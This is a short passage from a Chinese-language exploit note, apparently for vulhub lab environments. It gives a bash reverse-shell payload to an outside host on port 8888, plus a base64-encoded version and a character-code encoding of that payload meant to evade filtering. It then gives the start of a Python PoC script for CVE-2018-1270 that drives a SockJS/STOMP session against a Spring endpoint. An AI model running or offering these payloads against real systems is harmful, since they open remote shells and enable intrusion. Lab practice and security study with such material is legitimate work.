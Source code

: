 

构造poc

```
bash -i >& /dev/tcp/ip/8888 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwOS45Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}

",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwOS45Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}"))))
```

**CVE-2018-1270**

使用自带的POC即可

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)


def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time() * 1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
```